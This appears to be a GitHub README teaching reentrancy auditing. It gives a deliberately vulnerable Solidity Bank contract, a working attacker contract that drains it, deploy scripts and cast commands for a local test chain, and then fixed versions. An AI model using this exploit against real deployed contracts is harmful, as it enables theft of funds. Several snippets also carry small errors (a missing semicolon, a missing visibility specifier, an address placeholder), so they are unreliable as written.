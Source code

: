 # Web3eg-Smart-Contract-Auditor-Reentrancy-
- The provided Bank contract is vulnerable to a reentrancy attack. This vulnerability occurs because the contract updates the user's balance (balances[msg.sender] = 0) after sending Ether to the user. An attacker can exploit this by recursively calling the withdrawEth function before the balance is updated, draining the contract's funds.

```solidity
//SPDX-Liecense-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank{

    mapping(address =>uint256) public balances;

    function depositEth() payable{
        balances[msg.sender] += msg.value;
        
    }

    function withdrawEth() public{
        uint amount = balances[msg.sender];
        (bool sent,) = msg.sender.call{value : amount}("");
        require(sent,"Failed to send Ether");

        balances[msg.sender] = 0 ;
    }
}
```

- Below, I'll explain how to exploit this vulnerability and provide an example of an attacker contract that performs the reentrancy attack.
  The withdrawEth function has the following vulnerable logic:
   It checks the user's balance: uint amount = balances[msg.sender];
   It sends Ether to the user: msg.sender.call{value: amount}("").
   It updates the user's balance to 0: balances[msg.sender] = 0.
  - Contract  To Attack 
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "src/Bank.sol"
contract Attack {
    Bank public bank;

    constructor(address _bankAddress) payable {
        bank = Bank(_bankAddress);
    }

    // Fallback function to receive Ether and initiate reentrancy
    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdrawEth();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 Ether");
        bank.depositEth{value: 1 ether}();
        bank.withdrawEth();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Explanation of the Attack Flow:
The attack function deposits 1 Ether into the Bank contract.
The attack function calls withdrawEth, which sends 1 Ether back to the Attack contract.
The receive function in the Attack contract is triggered, and it recursively calls withdrawEth again before the balance is set to zero.
This process repeats until the Bank contract is drained of its Ether.

- Script To Deploy Bank contract
  
```solidity

//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Bank.sol";

contract DeployBank is Script{

    function run() external {
        vm.startBroadcast();
        Bank bank = new Bank();
        vm.stopBroadcast();
       
    }
}
```
- Script To Deploy Attack Contract With Address Of Bank Contract
```solidity
//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Attack.sol";

contract DeployAttack is Script{

    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(address(Bank Contract Address));
        vm.stopBroadcast();
       
    }
}
```
- Steps with Command
  
``` cast send <BANK_CONTRACT_ADDRESS> --value 10ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast send <ATTACK_CONTRACT_ADDRESS> "attack()" --value 1ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast call <ATTACK_CONTRACT_ADDRESS> "getBalance()" --rpc-url http://127.0.0.1:8545 ```

``` cast balance <BANK_CONTRACT_ADDRESS> --rpc-url http://127.0.0.1:8545 ```

- How to Fix the Vulnerability:
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank {
    mapping(address => uint256) public balances;

    function depositEth() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawEth() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        // Effects: Update the state before sending Ether
        balances[msg.sender] = 0;

        // Interactions: Send Ether after updating the state
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
You can also use a reentrancy guard from OpenZeppelin to add an extra layer of protection:

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract Bank is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function depositEth() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawEth() public nonReentrant {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```


